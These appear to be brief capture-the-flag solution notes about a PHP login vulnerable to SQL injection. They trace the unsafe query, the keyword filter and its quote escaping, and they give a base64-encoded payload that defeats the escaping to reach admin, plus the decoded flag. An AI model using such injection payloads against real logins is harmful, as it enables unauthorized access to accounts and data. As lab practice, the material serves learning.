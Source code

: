# key #
1. trace code 
	1. <?php if($user->is_admin) printf("<code>%s</code>, %s", htmlentities($flag1), $where_is_flag2); ?>
	2. $user = $query->fetchObject();
	3. $query = $db->query($sql);
	4. $sql = sprintf("SELECT * FROM `user` WHERE `user` = '%s' AND `password` = '%s'", $_POST['name'], $_POST['password']);	
2. function safe_filter($str)
	strstr  'or 1=1' || 'drop' || 'update' || 'delete'
	str_replace("'", "\\'", $str)
3. name=guest&password=guest
4. <!-- debug: -->
5. bmFtZT1udWxsJnBhc3N3b3JkPVwnIG9yIGBpc19hZG1pbmA9dHJ1ZTstLQ==
6. RkxBR3tcJyBVTklPTiBTRUxFQ1QgIkkgS25vdyBTUUwgSW5qZWN0aW9uIiAjfQ==
7. flag2 in the database!
